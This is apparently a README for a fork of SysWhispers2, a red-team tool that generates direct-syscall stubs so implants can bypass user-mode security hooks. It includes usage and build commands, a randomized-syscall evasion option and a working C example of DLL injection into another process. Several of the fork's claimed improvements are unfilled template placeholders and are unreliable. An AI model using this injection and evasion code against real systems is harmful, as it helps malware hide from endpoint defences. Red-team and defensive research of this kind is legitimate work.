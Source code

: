 ## 🚀 SysWhispers2

🔧 SysWhispers2 helps with evasion by generating header/ASM files that implants can use to make direct system calls, bypassing user-mode hooks. This fork includes ad customizations and improvement.


## 🔑 Key Differences from Original SysWhispers2
  ✅ Enhanced Features: [Describe modifications, e.g., "Added support for XYZ syscalls."]
  
  ✅ Compatibility: [Mention extended OS/toolchain support.]
  
  ✅ Optimizations: [Highlight performance/usability improvements.]

## 🛠 Features

✔ Generates header/ASM files for direct syscalls.

✔ Supports all core syscalls with cross-version compatibility.

✔ Randomized function name hashes for evasion.

✔ Lightweight & easy integration.

## 📥 Installation
      git clone https://github.com/your-username/SysWhispers2.git
      cd SysWhispers2
    python syswhispers.py --help
    
## 🚦 Usage Examples
  🔹 Generate Common Syscalls
  
    python syswhispers.py --preset common -o syscalls_common
    
  🔹 Generate Custom Syscalls

    python syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
    
  🔹 Example: DLL Injection with Direct Syscalls
  c
    
    #include "syscalls.h" // Generated header
    void InjectDll(HANDLE hProcess, const char* dllPath) {
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");

    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
    }
    
## 📜 Supported Functions
  Using --preset common includes:

  - NtCreateProcess

  - NtOpenThread

  - NtReadVirtualMemory

  - NtAllocateVirtualMemory

  - ... and more.

<details> <summary>📂 Click to expand full list</summary>
[Include the same list as in the original README or update it if needed.]

</details>
🔌 Integration
Visual Studio
Copy generated files (*.h, *.c, *.asm) into your project.

Enable MASM in Project → Build Customizations.

Add files and configure platform settings (x86/x64).

# MinGW + NASM

    # x86 Example
    i686-w64-mingw32-gcc -c main.c syscalls.c -Wall -shared
    nasm -f win32 -o syscalls.x86.o syscalls.x86.nasm
    i686-w64-mingw32-gcc *.o -o output.exe
    Random Syscall Jumps (Evasion)
    Compile with -DRANDSYSCALL and use rnd ASM files:


    x86_64-w64-mingw32-gcc main.c syscalls.c syscalls.rnd.x64.s -DRANDSYSCALL -Wall -o output.exe
    

### Script Output

```
PS C:\Projects\SysWhispers2> py .\syswhispers.py --preset common --out-file syscalls_common

python syswhispers.py -p all -a all -l all -o example-output/Syscalls

                  .                         ,--.
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.    /
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. ,-'
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-' `---
     /|                     |  @Jackson_T
    `-'                     '  @modexpblog, 2021

SysWhispers2: Why call the kernel when you can whisper?

All functions selected.

Complete! Files written to:
        example-output/Syscalls.h
        example-output/Syscalls.c
        example-output/SyscallsStubs.std.x86.asm
        example-output/SyscallsStubs.rnd.x86.asm
        example-output/SyscallsStubs.std.x86.nasm
        example-output/SyscallsStubs.rnd.x86.nasm
        example-output/SyscallsStubs.std.x86.s
        example-output/SyscallsStubs.rnd.x86.s
        example-output/SyscallsInline.std.x86.h
        example-output/SyscallsInline.rnd.x86.h
        example-output/SyscallsStubs.std.x64.asm
        example-output/SyscallsStubs.rnd.x64.asm
        example-output/SyscallsStubs.std.x64.nasm
        example-output/SyscallsStubs.rnd.x64.nasm
        example-output/SyscallsStubs.std.x64.s
        example-output/SyscallsStubs.rnd.x64.s
        example-output/SyscallsInline.std.x64.h
        example-output/SyscallsInline.rnd.x64.h
```


## Related Articles and Projects

- [@modexpblog](https://twitter.com/modexpblog): [Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)
- [@hodg87](https://twitter.com/hodg87): [Malware Mitigation when Direct System Calls are Used](https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/)
- [@Cn33liz](https://twitter.com/Cneelis): [Combining Direct System Calls and sRDI to bypass AV/EDR](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) ([Code](https://github.com/outflanknl/Dumpert))
- [@0x00dtm](https://twitter.com/0x00dtm): [Userland API Monitoring and Code Injection Detection](https://0x00sec.org/t/userland-api-monitoring-and-code-injection-detection/5565)
- [@0x00dtm](https://twitter.com/0x00dtm): [Defeating Userland Hooks (ft. Bitdefender)](https://0x00sec.org/t/defeating-userland-hooks-ft-bitdefender/12496) ([Code](https://github.com/NtRaiseHardError/Antimalware-Research/tree/master/Generic/Userland%20Hooking/AntiHook))
- [@mrgretzky](https://twitter.com/mrgretzky): [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
- [@SpecialHoang](https://twitter.com/SpecialHoang): [Bypass EDR’s memory protection, introduction to hooking](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) ([Code](https://github.com/hoangprod/AndrewSpecial/tree/master))
- [@xpn](https://twitter.com/_xpn_) and [@domchell](https://twitter.com/domchell): [Silencing Cylance: A Case Study in Modern EDRs](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)
- [@mrjefftang](https://twitter.com/mrjefftang): [Universal Unhooking: Blinding Security Software](https://threatvector.cylance.com/en_us/home/universal-unhooking-blinding-security-software.html) ([Code](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher))
- [@spotheplanet](https://twitter.com/spotheplanet): [Full DLL Unhooking with C++](https://ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)
- [@hasherezade](https://twitter.com/hasherezade): [Floki Bot and the stealthy dropper](https://blog.malwarebytes.com/threat-analysis/2016/11/floki-bot-and-the-stealthy-dropper/)
- [@hodg87](https://twitter.com/hodg87): [Latest Trickbot Variant has New Tricks Up Its Sleeve](https://www.cyberbit.com/blog/endpoint-security/latest-trickbot-variant-has-new-tricks-up-its-sleeve/)


## References to SysWhispers

- [@JFaust_](https://twitter.com/JFaust_): Process Injection [Part 1](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/), [Part 2](https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/), and [Alaris loader](https://sevrosecurity.com/2020/10/14/alaris-a-protective-loader/) project ([Code](https://github.com/cribdragg3r/Alaris))
- [@0xPat](https://www.twitter.com/0xPat): [Malware Development Part 2](https://0xpat.github.io/Malware_development_part_2/)
- [@brsn76945860](https://twitter.com/brsn76945860): [Implementing Syscalls In The CobaltStrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
- [@Cn33liz](https://twitter.com/Cneelis) and [@_DaWouw](https://twitter.com/_DaWouw): [Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/) ([Code](https://github.com/outflanknl/InlineWhispers))
    
## ⚠️ Caveats
  ❌ Graphical subsystem syscalls (win32k.sys) are not supported.
  
  ❌ Tested on [Your Environments].

## Troubleshooting

  - Type redefinitions errors: a project may not compile if typedefs in `syscalls.h` have already been defined.
  - Ensure that only required functions are included (i.e. `--preset all` is rarely necessary).
  - If a typedef is already defined in another used header, then it could be removed from `syscalls.h`.
    
## 🙏 Credits
   Based on the original SysWhispers2 by @Jackson_T and @modexpblog.
   Additional contributions by Mangala-Mnmatharaja🎯.

## 📜 License
Apache License 2.0. See LICENSE[http://www.apache.org/licenses/] for details.
